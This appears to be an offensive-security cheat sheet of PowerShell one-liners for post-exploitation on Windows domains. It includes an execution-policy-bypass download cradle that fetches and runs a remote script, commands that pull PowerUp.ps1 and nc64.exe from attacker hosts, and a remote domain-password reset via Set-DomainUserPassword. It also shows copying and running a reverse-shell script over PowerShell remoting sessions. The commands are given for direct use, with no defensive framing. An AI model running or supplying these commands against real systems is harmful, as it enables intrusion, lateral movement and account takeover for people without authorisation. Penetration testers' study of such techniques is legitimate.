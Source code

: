 ## Bringing it home
-  Save the below string to a file as .bat and execute.

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://ip:port/ps.txt')"
```
<br>

## Download_file
```powershell
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
```
<br>

## Change user pw remotely
```

$remote = New-Object System.Management.Automation.PSCredential (“DOMAIN\USER”, (ConvertTo-SecureString “PASSWORD” -AsPlainText -Force)) 
$creds = ConvertTo-SecureString 'PasswordRulon123!' -AsPlainText -Force 
Set-DomainUserPassword -Identity USER -AccountPassword $creds -Credential $remote -Verbose 
```
<br>

## Download files

```
powershell.exe iwr -uri http://IP/nc64.exe -o c:\windows\tasks\nc64.exe 
powershell.exe wget http://IP/ -out C:\file
```
<br>

## Execute cmd Remotely
```
Invoke-Command  -ScriptBlock {cmd /c powershell C:\Users\public\rev.ps1} -Session $sess
```
<br>

## New_Session
```powershell
$sess = New-PSSession -ComputerName <Name>
```
<br>

## Copy_to_session
```powershell
Copy-Item -Path C:\Users\public\rev.ps1 -Destination 'C:\Users\public\rev.ps1' -ToSession $sess
```
<br>
 